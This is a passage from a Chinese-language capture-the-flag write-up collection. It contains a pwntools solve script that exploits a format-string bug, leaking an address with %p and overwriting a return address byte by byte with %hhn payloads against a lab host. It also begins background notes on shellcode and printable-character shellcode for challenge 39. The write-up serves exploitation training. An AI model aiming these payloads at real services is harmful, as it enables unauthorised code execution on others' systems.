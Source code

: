   2. 使用 `%hhn` 修改目标地址的 1 字节内容。
## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10099
p = remote(host, port)

p.sendline(b'3')
payload = b"%p"
p.sendlineafter(b"Input what you want to talk: \n", payload)
p.recv()
res = p.recv().split(b'\n')
input_addr = int(res[1], 16)

game_ret = input_addr+0x40

p.sendline(b'3')
payload = b"%23c%10$hhn~"+p32(game_ret)
p.sendlineafter(b"Input what you want to talk: \n", payload)
p.recv()
p.recv()

p.sendline(b'3')
payload = b"%147c%10$hhn"+p32(game_ret+1)
p.sendlineafter(b"Input what you want to talk: \n", payload)
p.recv()
p.recv()

p.sendline(b'4')
p.recv()
flag = p.recv().decode()
print(flag)

# 做这一题时平台爆炸了
# 我拿到的flag：flag{TEST_FLAG}
```

# 第39题、`shellcode`分析及解决方案

## **背景知识**
### 1. **什么是 Shellcode？**
- Shellcode 是一段可执行的机器代码，通常用于漏洞利用过程中，攻击者通过它执行指令或打开一个 shell。
- 它通常以二进制形式嵌入到内存中，并利用缓冲区溢出或其他漏洞执行。

### 2. **什么是可见字符 Shellcode？**
- 可见字符 Shellcode 是一种特殊形式的 Shellcode，仅由可打印的 ASCII 字符组成（例如字母、数字、标点符号）。
- 它用于绕过输入过滤器或限制，比如只允许可见字符的输入场景。

---